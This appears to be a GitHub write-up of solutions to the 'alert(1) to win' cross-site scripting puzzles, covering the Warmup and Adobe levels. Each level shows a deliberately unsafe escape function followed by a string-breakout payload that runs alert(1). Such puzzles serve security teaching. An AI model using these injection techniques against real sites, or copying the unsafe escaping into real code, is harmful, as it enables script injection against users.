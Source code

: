# alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [DOM](#dom)
- [Skandia](#skandia)
- [JSON2](#json2)
- [Well](#well)
- [No](#no)
- [K'Z'K](#kzk)
- [K'Z'K 2](#kzk2)
- [K'Z'K 3](#kzk3)

## Warmup

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Input

```
",alert(1),"
```

- Output

```
<script>console.log("",alert(1),"");</script>
```

## Adobe

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Input

```
\");alert(1)//
```
